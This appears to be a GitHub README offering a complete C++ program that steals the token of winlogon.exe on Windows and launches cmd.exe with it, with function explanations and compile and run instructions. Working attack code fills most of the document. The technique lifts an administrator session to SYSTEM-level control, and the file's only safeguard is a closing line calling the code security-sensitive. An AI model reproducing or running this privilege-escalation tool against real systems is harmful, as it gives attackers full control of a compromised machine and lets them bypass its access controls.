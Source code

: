 # Process Token Impersonation

This project aims to start a command prompt (`cmd.exe`) by impersonating a specific process (`ImpersonateLoggedOnUser`) using Windows API and obtaining the identity of the `winlogon.exe` process.

## Requirements

- Windows operating system (supports both 32-bit and 64-bit versions)
- Microsoft Visual Studio or any Windows C++ compiler

## Code Explanation

### Functions

#### `GetProcessID`
Gets the PID (Process Identifier) of a specified process name.

```cpp
DWORD GetProcessID(LPCTSTR processName);

void EnablePrivileges(HANDLE hToken, LPCTSTR lpszPrivilege, BOOL bEnablePrivilege);
```

### Main Function
The main function follows these steps:

Obtains the PID of the winlogon.exe process.
Enables privileges for the current process.
Impersonates the winlogon.exe process.
Starts a command prompt (cmd.exe) with the impersonated identity.

### Code
#include <iostream>
#include <Windows.h>
#include <lm.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <tchar.h>

#pragma comment(lib, "advapi32.lib")

using namespace std;

DWORD GetProcessID(LPCTSTR processName) {
    DWORD pid = 0;
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        cerr << "CreateToolhelp32Snapshot failed: " << GetLastError() << endl;
        return 0;
    }

    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);

    if (Process32First(hSnapshot, &pe)) {
        do {
            if (_tcscmp(pe.szExeFile, processName) == 0) {
                pid = pe.th32ProcessID;
                break;
            }
        } while (Process32Next(hSnapshot, &pe));
    } else {
        cerr << "Process32First failed: " << GetLastError() << endl;
    }

    CloseHandle(hSnapshot);
    return pid;
}

void EnablePrivileges(HANDLE hToken, LPCTSTR lpszPrivilege, BOOL bEnablePrivilege) {
    TOKEN_PRIVILEGES tp;
    LUID luid;

    if (!LookupPrivilegeValue(NULL, lpszPrivilege, &luid)) {
        cerr << "LookupPrivilegeValue error: " << GetLastError() << endl;
        return;
    }

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    tp.Privileges[0].Attributes = (bEnablePrivilege) ? SE_PRIVILEGE_ENABLED : 0;

    if (!AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {
        cerr << "AdjustTokenPrivileges error: " << GetLastError() << endl;
        return;
    }

    if (GetLastError() == ERROR_NOT_ALL_ASSIGNED) {
        cerr << "The token does not have the specified privilege." << endl;
    }
}

int main() {
#ifdef _WIN32

    const TCHAR* processName = _T("winlogon.exe");
    DWORD pid_impersonate;
    pid_impersonate = GetProcessID(processName);

    HANDLE hTokenHandle = NULL;
    HANDLE DuplicateTokenHandle = NULL;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;

    ZeroMemory(&si, sizeof(STARTUPINFO));
    ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
    si.cb = sizeof(STARTUPINFO);

    HANDLE CurrentTokenHandle = NULL;

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &CurrentTokenHandle)) {
        cerr << "OpenProcessToken error: " << GetLastError() << endl;
        return 1;
    }

    EnablePrivileges(CurrentTokenHandle, SE_DEBUG_NAME, TRUE);

    HANDLE rProcess = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, pid_impersonate);
    if (rProcess == NULL) {
        cerr << "OpenProcess error: " << GetLastError() << endl;
        return 1;
    }

    if (!OpenProcessToken(rProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hTokenHandle)) {
        cerr << "OpenProcessToken error: " << GetLastError() << endl;
        CloseHandle(rProcess);
        return 1;
    }

    if (!ImpersonateLoggedOnUser(hTokenHandle)) {
        cerr << "ImpersonateLoggedOnUser error: " << GetLastError() << endl;
        CloseHandle(hTokenHandle);
        CloseHandle(rProcess);
        return 1;
    }

    if (!DuplicateTokenEx(hTokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &DuplicateTokenHandle)) {
        cerr << "DuplicateToken error: " << GetLastError() << endl;
        CloseHandle(hTokenHandle);
        CloseHandle(rProcess);
        return 1;
    }

    if (!CreateProcessWithTokenW(DuplicateTokenHandle, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &si, &pi)) {
        cerr << "CreateProcessWithToken error: " << GetLastError() << endl;
        CloseHandle(DuplicateTokenHandle);
        CloseHandle(hTokenHandle);
        CloseHandle(rProcess);
        return 1;
    }

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    CloseHandle(DuplicateTokenHandle);
    CloseHandle(hTokenHandle);
    CloseHandle(rProcess);

#else
    cerr << "[-] Operating System is not Windows";
    return 1;
#endif

    return 0;
}

## Compilation and Execution
Save the code in a C++ file (main.cpp).
Compile it using Visual Studio or your preferred C++ compiler.
Run the program as an administrator (you must have sufficient privileges).

cl /EHsc main.cpp /link advapi32.lib

## Notes
You must have administrative privileges for this program to run successfully.
The SE_DEBUG_NAME privilege is necessary to access other users' processes.
This code is security-sensitive and should only be used for trusted purposes and environments.

